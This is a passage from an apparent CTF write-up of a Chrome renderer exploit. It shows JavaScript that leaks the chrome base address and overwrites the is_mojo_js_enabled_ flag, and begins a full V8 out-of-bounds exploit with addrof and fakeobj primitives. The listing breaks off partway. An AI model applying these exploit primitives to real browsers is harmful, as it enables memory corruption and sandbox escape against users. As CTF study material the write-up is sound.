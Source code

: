 Now it is time to do some useful thing from those primitive functions. In renderer exploit, our goal is to modify a flag value so we can use Mojo in Javascript. Studying from the previous public write-ups about chrome exploit, the easiest way is to modify the the global variable `blink::RuntimeEnabledFeaturesBase::is_mojo_js_enabled_`. First we need to leak chrome base address. We use `window` object to leak it.


```javascript
var leak = BigInt(addrof(window)) + 0x10n + v8_heap - 1n;
var chrome_base = arbread(leak) - 0xc1ce730n;

```

But where is `is_mojo_js_enabled` ? Fortunately  the challenge chromium binary has symbol, we can use the following command to find out the offset of global variable `is_mojo_js_enabled_`.


```bash
$ nm --demangle ./chrome | grep -i 'is_mojo_js_enabled'
000000000c560f0e b blink::RuntimeEnabledFeaturesBase::is_mojo_js_enabled_

```

Turn on the flag and reload the page to make Mojo allowed in Javascript. We can store the `chrome_base` in localStorage, which can be used for exploiting the sandbox later. 


```javascript
var mojo_enabled = chrome_base + 0xc560f0en;
localStorage.setItem("chrome_base", chrome_base);
arbwrite(mojo_enabled, 1n);
window.location.reload();

```

The whole renderer exploit:


```javascript=
function pwn_v8() {
    print("In v8");
    const uint32 = new Uint32Array([0x1000]);
    oob_access_array = [uint32];
    var f64 = new Float64Array([1.1]);
    uint32.set(uint32, 9);

    var buf = new ArrayBuffer(8);
    var f64_buf = new Float64Array(buf);
    var u64_buf = new Uint32Array(buf);

    function ftoi(val) {
        f64_buf[0] = val;
        return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n);
    }

    function itof(val) {
        u64_buf[0] = Number(val & 0xffffffffn);
        u64_buf[1] = Number(val >> 32n);
        return f64_buf[0];
    }

    function addrof(in_obj) {
        oob_access_array[0] = in_obj;
        return uint32[0x15];
    }
    function fakeobj(addr) {
        uint32[0x15] = addr;
        return oob_access_array[0];
    }

```